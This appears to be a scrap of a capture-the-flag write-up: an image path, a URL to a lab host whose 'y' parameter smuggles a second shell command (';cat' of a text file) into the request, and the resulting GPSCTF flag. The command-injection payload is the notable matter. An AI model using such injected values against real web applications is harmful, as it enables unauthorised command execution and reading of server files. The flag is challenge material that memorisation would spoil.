 http://10.10.100.200:55075/index.php?x=21&y=1212;cat%20calchdeyenbdw7wjh281y1hd771ujs718hq.txt;

GPSCTF{89dcce9621fb7181cab196b592116c1a} 